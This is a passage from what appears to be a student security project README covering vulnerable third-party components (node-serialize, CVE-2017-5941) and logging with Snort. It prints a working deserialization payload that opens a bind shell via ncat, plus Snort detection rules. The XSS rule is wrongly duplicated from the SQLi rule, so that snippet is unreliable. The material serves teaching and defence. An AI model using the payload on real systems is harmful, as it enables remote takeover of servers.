  |Team Treehouse|**Components** such as libraries, frameworks, and other software modules, run with same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover.  Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts|
  |GeeksforGeeks|**Components with known vulnerabilities** can be defined as third-party apps or software platforms that are outdated and contain bugs that are public to all, i.e. sites like <a href="https://www.exploit-db.com">exploit-db</a> contain the full details as to how to exploit the bugs to put the security of the whole website under severe threat.|
  |WhiteSource|**Components with known vulnerabilities** contain vulnerabilities that were discovered in open source components and published in the NVD, security advisories or issue trackers.  From the moment of publication, a vulnerability can be exploited by hacker who find the documentation.|
  
  As developers, we often solely focus on functionality of the software we are writing, very rarely do we think about security.  We'll often incorporate libraries that help us get our job done, but we don't do our due diligence in researching possible vulnerabilities associated with those libraries.  The security often gets overlooked.
  
  ---
### Demonstration
  Our Web Application makes use of the node package **"node-serialize"** to serialize and deserialize objects. The **"node-serialize"** library has a CVE (Common Vulnerability and Exposure) associated with it.
  
  <a href="https://www.cvedetails.com/cve/CVE-2017-5941/">CVE-2017-5941</a> contains a description and links to proof of concept exploit code for the node-serialize library.
  
  For an in-depth demonstration on how to exploit a component with a known vulnerability, please refer to our Insecure Deserialization section, where you'll be taken through a step-by-step guide on how to exploit the **"node-serialize"** library.
  
  ---
### Remediation
  A mitigation technique to discover vulnerabilities against our web application is to manually check the libraries and version against exploit databases, CVEs, etc.  This is how we discovered the vulnerability with **node serialize v.0.0.4**, however, there are more efficient methods to do so.  As developers we can employ automated scanners, such as <a href="https://www.tenable.com">Tenable's Nessus</a> or <a href="https://www.openvas.org">Openvas</a>.
  
  Automated scanners enable developers to continuously monitor their web application for current and new vulnerabilities not only in our web applications, but in all software running on our Host system. Very rarely do hackers rely on one vulnerability to gain control of a system.  Systems are usually "rooted" by chaining multiple exploits together. Automated scanners are an effective way to discover vulnerabilities and address "low hanging fruit".
  
  Once a component with a known vulnerability is discovered, developers should seek to remove that component from their application, or mitigate the vulnerability.  In the Insecure Deserialization section, we mitigated the vulnerability with the use of the <code>JSON.stringify</code> function.  A more preferable solution, would be to use another library that provides the same functionality, but without the vulnerabilty.
  
  The nodejs engine <span class="bold">v8</span> provides us such a capability. It allows us to serialize and deserialize objects.
  
  Our code to serialize user input is now:
  
  ```
  var v8 = require('v8')
  var obj = req.body.userInput
  var serialized = v8.serialize(obj)
  var json = JSON.stringify(serialized)
  ```
  
  Here's what you'll see if you serialize an object in our web app:
  
  ```
  {test:123}
  ```
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities1.PNG">
  
  Our code to deserialize an object is now:
  
  ```
  var obj = Buffer.from(JSON.parse(req.body.userInput).data)
  var deserialized = obj.toString('utf8')
  ```
  
  Here's what you'll see if you deserialize the corresponding serialized object:
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities2.PNG">
  
  As in the Insecure Deserialization Section, attempt to start up a BIND shell on our webserver, by deserializing the following malicious input:
  
  ```
  {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ncat -nlvp 4444 -e /bin/sh', function(error, stdout, stderr) { console.log(stdout) });}()"}
  ```
  
  We now receive a error message, instead of a BIND shell:
    
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/usingComponentsWithKnownVulnerabilities3.PNG">  
  
  ---
### Citations: Using Components with Known Vulnerabilities
  "Insecure Components". Team Treehouse.  
  https://teamtreehouse.com/library/insecure-components (accessed Feb 18, 2022).
  
  "What is using components with known vulnerabilities". GeeksForGeeks.  
  https://www.geeksforgeeks.org/what-is-components-with-known-vulnerability/ (accessed Feb 19, 2022).
  
  "You can't ignore using components with known vulnerabilities". Whitesource.  
  https://www.whitesourcesoftware.com/resources/blog/using-components-with-known-vulnerabilities/ (accessed Feb 19, 2022).
</details>

# 10. Insufficient Logging & Monitoring
<details>
  <summary>
    Details
  </summary>
  
### Description
  |Source|Definition|
  |---|---|
  |Siemba|**Insufficient logging and monitoring** is missing security critical information logs or lack of proper log format, context, storage, security and timely response to detect an incident or breach.|
  |Crashtest Security|Attacks based on <span class="bold">insufficient logging and monitoring</span> are usually ranked high prevalence, medium in opportunity, and low in detectability.  Ensuring that all events are logged, and events monitored, as a result, is often considered a first step in intrusion detection.|
  |MITRE|When a security-critical events are not logged properly, such as a failed login attempt, this can make malicious behavior more difficult to detect and may hinder forensic alanysis after an attack succeeds.|
  
  ---
### Demonstration
  **Insufficient Logging and Monitoring** is not necessarily a vulnerability that can be exploited, however, it makes an attack on system more likely to succeed.  The absence of logging and monitoring means that it is almost impossible to detect an attack on a system and thus prevents any response or mitigative actions from taking place.
  
  ---
### Remediation
  Our remediation makes use of **Snort**. To see this remediation, please head to our <a href="http://ec2-157-175-92-30.me-south-1.compute.amazonaws.com:37773/insufficientLoggingAndMonitoring">AWS EC2 instance</a> and try the exercises there, which will trigger our web application to start up Snort.
  
  Snort is an Intrustion Detection System (IDS) and is installed on our host operating system in our AWS EC2 instance.
  
  The heart of what makes Snort work is the rules file. Below, is a screenshot of the rules that we created:</p>
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/snort_rules.png" width="100%">
  
  The following screenshot explains the general syntax of a snort rule:
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/images/snort_syntax.png" width="100%">
  
  This following rule tells Snort what to look for in an sqli attack:
  ```
  alert tcp any any -> any any (msg: "SERVER-WEBAPP SQLI";content: "%27"; sid:10000003;)
  ```

  The only portion of the rule not explained in the syntax screenshot, is the **content** key-value pair.  The value, which in this case is "%27", is unicode for a single quote, which is what is required to conduct an sqli attack against our web application.  This rule tells snort to inspect packets being sent to our system, if detects a single quote in the packet, it will generate a log.
  
  This following rule tells Snort what to look for in an XSS attack:
  ```
  alert tcp any any -> any any (msg: "SERVER-WEBAPP SQLI";content: "%27"; sid:10000003;)
  ```
  
  In this rule when snort detects the string "alert" in a packet, it will generate a log for possible XSS attack.
  
  In the logs we can see your IP, or the IP of the attacker attempting to exploit our web application. (IP obscured in screenshot below):
  
  > <img src="https://github.com/howed-neighbor/CS467/blob/main/public/readmeImages/logs.PNG">
  
  This demonstration shows how powerful logging and monitoring can be, it can help defenders identify possible intrusions into their system.  However, an IDS is only as good as the rules that written for it.  Additionally, defenders must also be skilled in reviewing logs.  In our example we only had two attacks, in an enterprise system, their could potentially be hundreds, thousands, even hundreds of thousands of alerts.
  
  ---
### Citations: Insufficient Logging & Monitoring
  "OWASP Top 10 - Insufficient Logging and Monitoring". Siemba.  
  https://www.siemba.io/post/owasp-top-10-insufficient-logging-monitoring (accessed Feb 26, 2022).
  
  "Comprehensive Guide To Insufficient Logging and Monitoring and How to Prevent It". Crashtest Security.  
  https://crashtest-security.com/insufficient-logging-monitoring-guide/ (accessed Feb 27, 2022).
  
  "Insufficient Logging". MITRE.  
  https://cwe.mitre.org/data/definitions/778.html (accessed Feb 26, 2022).
</details>

# Citations: Primary Sources

"Website Security Research Project." EECS Project site.
https://eecs.oregonstate.edu/capstone/submission/pages/viewSingleProject.php?id=OLLHp1v4lrRuobYa (accessed Dec 2021-Jan 2022).

Avi. D. "Top 10 Common Web Attacks: The First Steps to Protect Your Website." vpnMentor.
https://www.vpnmentor.com/blog/top-10-common-web-attacks/ (accessed Dec 2021-Jan 2022).

# Code References

REFERENCES  
<sub>
├── body-parser		| "body-parser", http://expressjs.com/en/resources/middleware/body-parser.html  
├── crypto			| "Crypto", https://nodejs.org/api/crypto.html#cryptorandombytessize-callback  
├── expressjs		| "Hello world example", https://expressjs.com/en/starter/hello-world.html  
├── expressjs		| "cs340_sample_nodejs_app", https://github.com/knightsamar/cs340_sample_nodejs_app  
├── expressjs		| OSU CS340 INTRODUCTION TO DATABASES, https://canvas.oregonstate.edu/courses/1825733  
├── expressjs		| "Express error handling", https://expressjs.com/en/guide/error-handling.html  
├── express-session	| "express-session", http://expressjs.com/en/resources/middleware/session.html  
├── handlebars		| "Introduction", https://handlebarsjs.com/guide/  
├── handlebars		| "Express Handlebars", https://www.npmjs.com/package/express-handlebars  
├── handlebars		| "Hello Handlebars", https://eecs.oregonstate.edu/ecampus-video/CS290/core-content/hello-node/hello-handlebars.html  
├── handlebars		| "app.locals", https://expressjs.com/en/api.html#app.locals  
├── JavaScript		| "Element.classList", https://developer.mozilla.org/en-US/docs/Web/API/Element/classList  
├── JavaScript 		| "parseInt()", https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt  
├── MySQL			| "Using Node on the Engineering Servers", https://eecs.oregonstate.edu/ecampus-video/CS290/core-content/tools-and-overview/Using-Node-on-the-Engineering-Servers.html  
└── Window.prompt 	| "Window.prompt()", https://developer.mozilla.org/en-US/docs/Web/API/Window/prompt  
</sub>

